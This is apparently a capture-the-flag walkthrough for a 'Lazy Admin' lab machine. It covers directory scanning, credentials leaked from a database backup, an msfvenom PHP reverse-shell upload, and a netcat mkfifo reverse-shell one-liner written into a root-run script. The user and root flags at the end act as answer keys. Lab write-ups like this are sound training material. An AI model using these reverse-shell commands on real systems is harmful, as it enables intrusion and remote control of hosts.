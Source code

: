 # Lazy Admin

ip : `10.10.30.3`

dirb scanning reveals the directories content
```
dirb http://10.10.30.3
```
> we found a database backup in the link : `http://10.10.30.3/content/inc/db.php`

> we found a md5 hash string : `42f749ade7f9e195bf475f37a44cafcb`
from the database backup we found the credentials for login into the link `http://10.10.30.3/as/`
`uesrname`:`manager` and `password` : `Password123`


now creatign a php reverse shell payload then make a zip of that file and upload this as an attachment
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.17.48.110 LPORT=4444 > payload.php
```
now if we go to the following link we can see the attachment
```
http://10.10.30.3/content/attachment/
```

now just start the multi handler in msfconsole

write a netcat payload to the file which can be execute by super user
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.48.110 4445 > /tmp/f " > /etc/copy.sh
```



| Questions | Answers |
|----------|----------|
| What is the user flag ? | THM{63e5bce9271952aad1113b6f1ac28a07} |
| What is the root flag ? | THM{6637f41d0177b6f37cb20d775124699f}

